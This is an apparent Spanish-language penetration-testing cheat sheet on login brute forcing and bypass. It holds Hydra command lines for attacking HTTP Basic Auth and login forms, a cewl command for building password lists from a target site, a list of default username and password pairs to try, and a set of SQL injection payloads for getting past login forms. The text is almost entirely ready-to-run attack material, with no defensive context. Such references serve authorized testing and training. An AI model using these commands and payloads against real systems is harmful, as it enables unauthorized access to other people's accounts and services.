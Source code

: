 
# 🔐 Ataques de fuerza bruta y bypass de login

## 🔸 **Hydra: Ataques con credenciales**

### 🔹 **Autenticación básica (HTTP Basic Auth)**
```bash
hydra -l user -P /usr/share/wordlists/rockyou.txt -f $ip http-get /path
```

### 🔹 **Formulario de login (HTTP POST Form)**
```bash
hydra -L users.txt -P users.txt $ip http-post-form "<directory>:login_username=^USER^&secretkey=^PASS^&<rest of post request>:<error message>"
```

---

## 🛠️ Crear lista personalizada de contraseñas con `cewl`
```bash
cewl -w cewl_passlist.txt -d 5 $RHOST/index.pl
```

---

## 📋 Credenciales estándar para probar cuando el portal bloquea intentos
```
admin:admin  
admin:password  
admin:administrator  
admin:(nombre de la máquina)  
user:user  
user:password  
user:12345  
guest:guest  
root:root  
(nombre de la máquina):(nombre de la máquina)  
(cuenta por defecto):(nombre de la app)  

admin:<en blanco>  
admin:<nombre del servicio>  
<servicio>:<servicio>  
root:admin  
root:password  
root:<nombre del servicio>  
<usuario>:password  
<usuario>:admin  
<usuario>:usuario  
usuario:<nombre del servicio>
```

---

## 🧨 Payloads de **SQL Injection** para saltarse formularios de login
```sql
' or 1=1;--  
' or '1'='1  
' or 1=1;#  
') or ('x'='x  
' or <columna> like '%';--  
' or 1=1 LIMIT 1;--  

admin' --  
admin' #  
admin'/*  

' or 1=1--  
' or 1=1#  
' or 1=1/*  

') or '1'='1--  
') or ('1'='1—  
' or 1/*  
 */ =1 --

admin' or 'a'='a  
'#
```